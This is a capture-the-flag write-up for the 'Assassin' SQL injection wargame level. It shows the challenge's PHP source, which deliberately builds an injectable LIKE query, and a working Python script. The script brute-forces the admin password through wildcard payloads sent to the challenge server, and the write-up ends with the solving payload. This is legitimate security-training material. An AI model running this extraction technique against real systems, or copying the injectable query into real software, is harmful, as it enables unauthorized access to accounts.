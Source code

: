 # **Assassin**

```shell=
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~");   
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
  if($result['id'] == 'admin') solve("assassin");   
  highlight_file(__FILE__);   
?>
```

I don't get the point of this challenge, Cause there's only two id in DB: `guest` & `admin`.

More over, they just the same in first 3 characters.

I think if there are more decoy(?) in this challenge, following script will not work. 

```shell=
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""

pwNotInChar = False
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload=Passwd+str(c)+"%"

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        print (Payload)

        #print (HTTP.getresponse().read())

        Response = HTTP.getresponse().read()

        if (b"Hello admin" in Response):
            Passwd+=str(c)
            print ("[*] Password: %s" % Passwd)
            break
        
        elif (b"Hello " in Response):
            print ("[+] Found: %c" % c)
            Passwd+=str(c)
            break
        if (str(c) == "+"):
            pwNotInChar = True
            break
    if(pwNotInChar == True):
        break
print ("[*] Password: %s" % Passwd)
```

![](https://i.imgur.com/5AcAEB1.png)

The Payload of this challenge should be:
`?pw=832edd10`

![](https://i.imgur.com/N4fMZKP.png)


